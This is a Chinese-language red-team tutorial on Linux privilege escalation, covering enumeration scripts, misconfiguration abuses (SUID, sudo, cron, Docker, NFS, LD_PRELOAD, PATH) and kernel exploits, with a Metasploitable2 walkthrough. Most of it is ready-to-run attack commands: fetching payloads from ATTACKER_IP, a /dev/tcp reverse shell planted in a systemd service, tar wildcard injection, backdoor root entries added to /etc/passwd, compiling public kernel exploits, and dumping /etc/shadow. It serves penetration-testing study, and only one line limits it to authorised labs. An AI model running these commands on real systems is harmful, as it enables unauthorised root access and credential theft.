

# 01-Linux权限提升完整指南

学习目标: 掌握Linux提权全流程，从信息收集到内核漏洞利用，覆盖所有主流提权向量
目标工具: LinEnum, linPEAS, linux-exploit-suggester, linuxprivchecker, pspy, unix-privesc-check
所需环境: ArchStrike (攻击机), Linux靶机 (如Metasploitable2/3)

## 目录

- [[#一、提权前的准备工作|一、提权前的准备工作]]
- [[#二、第一阶段 信息收集工具|二、第一阶段: 信息收集工具]]
  - [[#2.1 LinEnum|2.1 LinEnum]]
  - [[#2.2 linPEAS|2.2 linPEAS]]
  - [[#2.3 linux-exploit-suggester|2.3 linux-exploit-suggester]]
  - [[#2.4 linuxprivchecker|2.4 linuxprivchecker]]
  - [[#2.5 unix-privesc-check|2.5 unix-privesc-check]]
- [[#三、第二阶段 提权技术路线|三、第二阶段: 提权技术路线]]
  - [[#3.1 SUID二进制文件提权|3.1 SUID二进制文件提权]]
  - [[#3.2 Sudo配置错误|3.2 Sudo配置错误]]
  - [[#3.3 Cron任务劫持|3.3 Cron任务劫持]]
  - [[#3.4 可写服务文件|3.4 可写服务文件]]
  - [[#3.5 Docker组提权|3.5 Docker组提权]]
  - [[#3.6 能力Capabilities提权|3.6 能力(Capabilities)提权]]
  - [[#3.7 NFS no_root_squash|3.7 NFS no_root_squash]]
  - [[#3.8 可写passwd提权|3.8 可写/etc/passwd提权]]
  - [[#3.9 LD_PRELOAD提权|3.9 LD_PRELOAD / LD_LIBRARY_PATH提权]]
  - [[#3.10 PATH变量劫持|3.10 PATH变量劫持]]
- [[#四、第三阶段 内核漏洞提权|四、第三阶段: 内核漏洞提权]]
  - [[#4.1 DirtyCow|4.1 DirtyCow (CVE-2016-5195)]]
  - [[#4.2 DirtyPipe|4.2 DirtyPipe (CVE-2022-0847)]]
  - [[#4.3 PwnKit|4.3 PwnKit (CVE-2021-4034)]]
  - [[#4.4 OverlayFS|4.4 OverlayFS (CVE-2021-3493 / CVE-2023-0386)]]
  - [[#4.5 自动化匹配|4.5 使用linux-exploit-suggester自动化匹配]]
  - [[#4.6 内核漏洞注意事项|4.6 内核漏洞提权注意事项]]
- [[#五、完整实践 Metasploitable2|五、完整实践: Metasploitable2手动提权]]

## 一、提权前的准备工作

权限提升（Privilege Escalation）是红队行动中继初始访问后的关键步骤。成功获取一个低权限shell后，下一步必然是提权至root。



提权的核心逻辑：
1. 系统配置错误 → 可利用的权限配置
2. 软件漏洞 → 可利用的版本缺陷
3. 用户行为疏忽 → 可滥用的信任关系

常见的低权限入口包括：
- Web应用漏洞（文件上传、命令注入）获得的 www-data 用户
- 钓鱼/社工获得的普通用户
- 默认/弱密码登录的服务账户
- 通过SSH key获取的非特权账户

获得初始shell后，第一个命令：

```bash
id
whoami
```

基础命令与系统操作参考 [[../archstrike-base教学/01-基础命令与Linux安全操作|基础命令与Linux安全操作]]。

## 二、第一阶段: 信息收集工具

### 2.1 LinEnum

LinEnum 是一个经典的Linux信息收集脚本，可以自动化地收集大量系统信息。

```bash
# 下载LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
```

上传到目标：

```bash
# 在攻击机上启动HTTP服务
python3 -m http.server 8080

# 在目标机上执行
wget http://ATTACKER_IP:8080/LinEnum.sh -O /tmp/le.sh
chmod +x /tmp/le.sh
/tmp/le.sh | tee /tmp/linenum_output
```

LinEnum收集的信息包括：
- 内核版本（用于查找内核漏洞）
- 系统信息（发行版、CPU、架构）
- 用户信息（当前用户、所有用户、/etc/passwd内容）
- 网络信息（IP、路由、监听端口）
- SUID/SGID文件
- 可写的配置文件和目录
- Cron任务
- 敏感文件（包含password、secret的文件）

LinEnum输出解读 - 重点关注：

```
[-] Kernel information    → 内核版本（匹配CVE）
[-] SUID files           → 高亮显示，重点分析
[-] SGID files           → 可能可写的SGID文件
[-] Writable files       → /etc/passwd, /etc/shadow等
[-] Cron jobs            → 定时任务脚本
[-] Sudo version         → 是否有sudo提权漏洞
[-] Processes             → 以root运行的进程
```

### 2.2 linPEAS

linPEAS 是目前最流行的Linux权限提升枚举脚本，来自PEAS系列。

```bash
# 下载最新版本
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

上传到目标并运行：

```bash
# 攻击机
python3 -m http.server 8088

# 目标机
wget http://ATTACKER_IP:8088/linpeas.sh -O /tmp/lp.sh
chmod +x /tmp/lp.sh
/tmp/lp.sh | tee /tmp/peas_output
```

PEAS颜色标记：
- **红色**: 几乎100%可提权的配置（可写/etc/passwd, 可写root cron任务）
- **黄色**: 可能导致提权的配置（SUDO特殊二进制, SUID二进制, Docker组成员）
- **青色**: 信息（需进一步分析）

### 2.3 linux-exploit-suggester

这个工具检测目标系统的内核版本和补丁级别，根据已知CVE推荐可用的漏洞利用。

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
```

上传到目标：

```bash
# 攻击机
python3 -m http.server 8088

# 目标机
wget http://ATTACKER_IP:8088/linux-exploit-suggester.sh -O /tmp/les.sh
chmod +x /tmp/les.sh
/tmp/les.sh | tee /tmp/les_output
```

输出解读（优先级排序）：

```
[CVE-2022-0847] DirtyPipe        → 内核 5.8 - 5.16.11，稳定且影响范围广
[CVE-2021-4034] PwnKit (pkexec)   → 几乎所有Linux都受影响
[CVE-2016-5195] DirtyCow         → 经典稳定提权
[CVE-2021-3156] sudoedit          → sudo版本漏洞
[CVE-2023-0386] OverlayFS         → 较新内核
```

如果工具没有推荐，可以加 `-k` 参数进行更深入的检查：

```bash
/tmp/les.sh -k | tee /tmp/les_full
```

### 2.4 linuxprivchecker

linuxprivchecker 是一个Python编写的权限审计脚本。

```bash
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
```

上传到目标：

```bash
# 攻击机
python3 -m http.server 8088

# 目标机（如果有Python）
wget http://ATTACKER_IP:8088/linuxprivchecker.py -O /tmp/lpc.py
python /tmp/lpc.py | tee /tmp/lpc_output
python3 /tmp/lpc.py | tee /tmp/lpc_output
```

重点关注：
- `[!!]` 高严重性发现（红色标记）
- `[!!]` 可写的系统文件
- `[!!]` 异常的系统配置

### 2.5 unix-privesc-check

unix-privesc-check 是另一个通用的Unix/Linux权限审计工具。

```bash
sudo pacman -S unix-privesc-check
```

或从源码获取：

```bash
wget https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh
```

上传到目标并运行：

```bash
wget http://ATTACKER_IP:8080/upc.sh -O /tmp/upc.sh
chmod +x /tmp/upc.sh
/tmp/upc.sh standard > /tmp/upc_standard
/tmp/upc.sh thorough > /tmp/upc_thorough   # 更深入的检查
```

## 三、第二阶段: 提权技术路线

### 3.1 SUID二进制文件提权

原理: SUID (Set User ID) 位允许用户以文件所有者的权限执行程序。

查找SUID文件：

```bash
find / -perm -4000 -type f 2>/dev/null
```

常见可利用SUID：

```bash
# 1) find
find / -name anything -exec /bin/sh -p \;
find / -name anything -exec /bin/bash -p \;

# 2) vim/nvim
vim -c ':python3 import os; os.setuid(0); os.system("/bin/bash")'
# 或通过vim打开后 :!bash 或 :shell

# 3) bash (罕见)
/bin/bash -p   # -p保持euid

# 4) cp/mv - 覆盖/etc/passwd
echo "root2:$(openssl passwd -1 password):0:0:root:/root:/bin/bash" >> /etc/passwd
su root2

# 5) nmap (旧版本有--script功能)
nmap --interactive
!bash

# 6) python/perl
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

GTFO Bins: https://gtfobins.github.io — 列出所有可被滥用的Unix二进制文件。

### 3.2 Sudo配置错误

列出当前用户的sudo权限：

```bash
sudo -l
```

危险条目示例：

```
(ALL) NOPASSWD: ALL              → 直接 sudo su 获得root
(root) NOPASSWD: /usr/bin/vim    → sudo vim -c ':!/bin/bash'
(root) NOPASSWD: /usr/bin/less   → sudo less file → !bash
(root) NOPASSWD: /usr/bin/man    → sudo man man → !bash
(root) NOPASSWD: /usr/bin/find   → sudo find . -exec /bin/bash \;
(root) NOPASSWD: /usr/bin/python → sudo python3 -c 'import os; os.system("/bin/bash")'
env_keep+=LD_PRELOAD             → 编译.so库劫持函数
```

Sudo漏洞提权（无需特权sudo条目）：

- **CVE-2021-3156** (Baron Samedit): sudo 1.8.2 - 1.8.31p2 / 1.9.0 - 1.9.5p1
- **CVE-2019-14287** (sudo绕过): sudo < 1.8.28, `sudo -u#-1 /bin/bash`

### 3.3 Cron任务劫持

```bash
# 查看系统cron
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.daily/
ls -la /etc/cron.hourly/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/

# 查看用户cron
crontab -l
ls -la /var/spool/cron/crontabs/
ls -la /var/spool/cron/
```

Cron提权的三种情况：

**情况A: 可写的cron脚本**

```bash
echo '#!/bin/bash' > /etc/cron.daily/backup.sh
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /etc/cron.daily/backup.sh
# 等待cron执行后
/tmp/rootbash -p
```

**情况B: 通配符注入 (Wildcard Injection)**

```bash
echo "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash" > /var/backup/runme.sh
touch "/var/backup/--checkpoint=1"
touch "/var/backup/--checkpoint-action=exec=sh runme.sh"
```

**情况C: PATH劫持**

如果cron脚本使用相对路径调用命令，向PATH中的可写目录写入伪造命令。

### 3.4 可写服务文件

```bash
# 检查可写的服务文件
find /etc/systemd/system /usr/lib/systemd/system -writable -type f 2>/dev/null
find /etc/systemd/system /usr/lib/systemd/system -type f -name "*.service" 2>/dev/null | while read f; do
  [ -w "$f" ] && echo "[!] 可写: $f"
done
```

如果发现可写 `.service` 文件：

```bash
# 编辑该文件，修改ExecStart
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'

# 重启服务
systemctl daemon-reload
systemctl restart vulnerable-service
```

### 3.5 Docker组提权

```bash
# 检查docker组成员
groups
id | grep docker

# 如果用户在docker组中
docker run -v /:/mnt -it alpine chroot /mnt
whoami  # root

# 更简单的方式
docker run -v /:/mnt -it alpine /bin/sh
chroot /mnt
cp /bin/bash /mnt/tmp/rbash
chmod +s /mnt/tmp/rbash
```

### 3.6 能力(Capabilities)提权

```bash
getcap -r / 2>/dev/null
```

重点关注能力：

| 能力 | 效果 |
|------|------|
| cap_setuid+ep | 可执行setuid(0) |
| cap_dac_override+ep | 绕过文件权限检查 |
| cap_sys_admin+ep | 几乎等同于root |
| cap_sys_ptrace+ep | 调试任意进程 |
| cap_sys_module+ep | 加载内核模块 |
| cap_net_admin+ep | 修改网络配置 |

### 3.7 NFS no_root_squash

```bash
# 检查NFS导出
cat /etc/exports

# 如果看到 no_root_squash
showmount -e TARGET_IP
mkdir /tmp/nfs_mount
mount -t nfs TARGET_IP:/home /tmp/nfs_mount

# 编译SUID bash
cat <<EOF > /tmp/nfs_mount/rootshell.c
int main() { setuid(0); setgid(0); system("/bin/bash"); return 0; }
EOF
gcc /tmp/nfs_mount/rootshell.c -o /tmp/nfs_mount/rootshell
chmod +s /tmp/nfs_mount/rootshell

# 在目标机上执行
/home/rootshell
```

### 3.8 可写/etc/passwd提权

```bash
ls -la /etc/passwd
ls -la /etc/shadow

# 如果/etc/passwd可写
openssl passwd -1 password123
echo "newroot:\$1\$outputhash:0:0:root:/root:/bin/bash" >> /etc/passwd
su newroot

# 如果/etc/shadow可写，替换root哈希后 su root
```

### 3.9 LD_PRELOAD / LD_LIBRARY_PATH提权

```bash
sudo -l
# 如果看到: env_keep+=LD_PRELOAD

# 创建共享库
cat <<EOF > shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
EOF

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so some_allowed_command
```

### 3.10 PATH变量劫持

```bash
echo $PATH
find / -writable -type d 2>/dev/null | grep -v /proc | grep -v /sys

# 在可写PATH目录创建伪造命令
echo '/bin/bash' > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
```

## 四、第三阶段: 内核漏洞提权

### 4.1 DirtyCow (CVE-2016-5195)

影响: Linux内核 2.x 到 4.8.3

```bash
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password123
su firefart
whoami  # root
```

### 4.2 DirtyPipe (CVE-2022-0847)

影响: Linux内核 5.8 到 5.16.11

```bash
wget https://raw.githubusercontent.com/nicholasaleks/CVE-2022-0847/master/Dirty-Pipe.sh
chmod +x Dirty-Pipe.sh
./Dirty-Pipe.sh
whoami  # root

# 或者编译版
wget https://haxx.in/files/dirtypipez.c
gcc dirtypipez.c -o dirtypipez
./dirtypipez /usr/bin/su
su
```

### 4.3 PwnKit (CVE-2021-4034)

影响: Polkit's pkexec (几乎所有Linux发行版)

```bash
wget https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.c
gcc PwnKit.c -o PwnKit
./PwnKit
whoami  # root
```

### 4.4 OverlayFS (CVE-2021-3493 / CVE-2023-0386)

```bash
# CVE-2023-0386 (Linux内核 5.11到6.2)
wget https://raw.githubusercontent.com/sxlmnwb/CVE-2023-0386/main/exploit.c
gcc -o exploit exploit.c
./exploit

# CVE-2021-3493 (Ubuntu 20.10, 20.04 LTS等)
wget https://raw.githubusercontent.com/briskets/CVE-2021-3493/main/exploit.c
gcc exploit.c -o exploit
./exploit
```

### 4.5 使用linux-exploit-suggester自动化匹配

完整流程：

```bash
# 上传并运行linux-exploit-suggester
wget http://ATTACKER_IP:8088/linux-exploit-suggester.sh -O /tmp/les.sh
bash /tmp/les.sh | tee /tmp/les_output

# 查看输出，找到匹配的CVE
cat /tmp/les_output

# 在攻击机上下载对应exploit
searchsploit linux kernel LOCAL | grep "Privilege Escalation"
searchsploit -m 45010

# 静态编译
gcc -static exploit.c -o exploit

# 上传编译好的exploit
wget http://ATTACKER_IP:8088/exploit -O /tmp/exploit
chmod +x /tmp/exploit
/tmp/exploit

# 验证
whoami
id
```

### 4.6 内核漏洞提权注意事项

1. **编译问题**: 目标机可能没有gcc → 在攻击机上静态编译(`gcc -static`)
2. **架构不匹配**: 32位 vs 64位 → `uname -m` 检查
3. **内核版本精确匹配**: `uname -r` 获取版本号, `cat /etc/os-release` 获取发行版信息
4. **不稳定因素**: 内核exploit可能造成系统崩溃(kernel panic)，仅在授权测试环境使用

## 五、完整实践: Metasploitable2手动提权

环境: 攻击机(ArchStrike) + 目标机(Metasploitable2, IP: 192.168.56.102)

**Phase 1: 获得初始shell**

```bash
# 扫描
nmap -sV -p- 192.168.56.102

# 利用vsftpd 2.3.4后门
nc 192.168.56.102 21
USER backdoor:)
PASS anything

# 新终端
nc 192.168.56.102 6200
whoami   # root (直接给root)
```

**Phase 2: 信息收集 (以www-data为例)**

```bash
whoami
id
uname -a

# 上传LinEnum
wget http://192.168.56.1:8080/LinEnum.sh -O /tmp/le.sh
chmod +x /tmp/le.sh
/tmp/le.sh | tee /tmp/le_output

# 上传linPEAS
wget http://192.168.56.1:8080/linpeas.sh -O /tmp/lp.sh
chmod +x /tmp/lp.sh
/tmp/lp.sh | tee /tmp/lp_output
```

**Phase 3: 分析结果**

```bash
# 检查SUID
find / -perm -4000 -type f 2>/dev/null

# 检查sudo
sudo -l

# 检查cron
cat /etc/crontab
ls -la /etc/cron.*

# 检查内核
uname -a
lsb_release -a

# 运行漏洞建议器
wget http://192.168.56.1:8080/linux-exploit-suggester.sh -O /tmp/les.sh
bash /tmp/les.sh
```

**Phase 4: 执行提权**

```bash
# 根据发现选择提权方式
# 例如: unix-udp.c (CVE-2009-2698)
wget http://192.168.56.1:8080/exploit.c -O /tmp/exp.c
gcc /tmp/exp.c -o /tmp/exp
/tmp/exp

# 验证
whoami   # root
id       # uid=0(root) gid=0(root)
```

**Phase 5: 提取哈希**

```bash
cat /etc/shadow
cat /etc/passwd
```

---

总结: Linux提权没有万能解，关键在于系统化的信息收集。PEAS能发现80%的配置类提权向量，linux-exploit-suggester覆盖内核漏洞。记住提权的一般原则: 先研究配置，再考虑内核。

下一教程：[[02-Windows权限提升技术|02-Windows权限提升技术]]
[[../总目录与快速查询|← 返回总目录]]
